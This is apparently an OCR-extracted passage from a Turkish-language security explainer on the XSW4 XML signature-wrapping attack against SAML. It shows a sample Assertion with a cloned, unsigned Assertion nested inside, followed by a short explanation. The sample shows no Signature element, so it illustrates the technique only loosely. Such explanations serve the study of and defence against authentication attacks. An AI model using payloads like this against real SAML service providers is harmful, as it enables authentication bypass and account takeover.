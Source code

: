 - XSW4 :// mevcut Assertion içine, klonlanmış, imzasız bir Assertion kopyası eklenir.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
  <!-- Klonlanmış, imzasız Assertion kopyası -->
  <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
    <Issuer>https://identity-provider.com</Issuer>
    <Subject>
      <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
      <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
      </SubjectConfirmation>
    </Subject>
    <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
      <AudienceRestriction>
        <Audience>https://service-provider.com</Audience>
      </AudienceRestriction>
    </Conditions>
    <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
      <AuthnContext>
        <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
      </AuthnContext>
    </AuthnStatement>
  </Assertion>
</Assertion>
```
XSW4 senaryosu, SAML Assertion mesajlarında gerçekleşir. Saldırgan, mevcut Assertion'ın içine, klonlanmış ve imzasız bir Assertion kopyası ekler. Böylece, mevcut Assertion içinde birden fazla Assertion bulunur ve saldırganın yetkileri genişletilir.
